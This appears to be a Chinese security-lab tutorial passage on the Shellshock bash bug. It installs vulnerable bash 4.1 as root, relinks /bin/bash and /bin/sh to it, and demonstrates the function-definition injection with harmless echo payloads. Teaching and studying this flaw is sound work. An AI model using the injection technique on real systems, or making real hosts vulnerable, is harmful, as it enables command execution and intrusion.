



2.1 进行实验所需的准备


#### 1. 环境搭建

以root权限安装4.1版bash（4.2版本以上的漏洞已经被堵上了） bash4.1 原来的下载地址是 http://ftp/gnu.org/gnu/bash/bash-4.1.tar.gz ，为了加快速度，我们这里使用下面的下载地址 http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz

下载

```
$ sudo su
$ wget http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz
```

安装

```
$ tar xf bash-4.1.tar.gz
$ cd bash-4.1
$ ./configure #这一步过程比较长，请等待一会
$ make && make install
```





链接

```
$ rm /bin/bash
$ ln -s /usr/local/bin/bash /bin/bash
```

到这里就安装完了，接下来检测是否存在shellshock漏洞。

```sh
$ exit
$ env x='() { :; }; echo vulnerable' bash -c "echo this is a test"
```



输出vulnerable的话,说明bash有漏洞。

最后，让`/bin/sh` 指向`/bin/bash`.

```sh
$ sudo ln -sf /bin/bash /bin/sh
```

现在一切就绪，进入下一步吧。

#### 2.预备知识

了解bash自定义函数，只需要函数名就能够调用该函数。

```
$ foo() { echo bar; } 
$ foo
> bar
```

这个时候的Bash的环境变量：

```
KEY = foo
VALUE = () { echo bar; }
```

来看看ShellShock漏洞的真身：

```
export foo='() { :; }; echo Hello World'
bash
>Hello World
```

为什么调用bash的时候输出`Hello World`了呢？瞧瞧他内部的情况：

```
KEY = foo
VALUE = () { :; }; echo Hello World
```

bash读取了环境变量，在定义foo之后直接调用了后面的函数。 一旦调用bash，自定义的语句就直接触发。

到了这，你有想到什么吗？联系之前的 Set-UID 课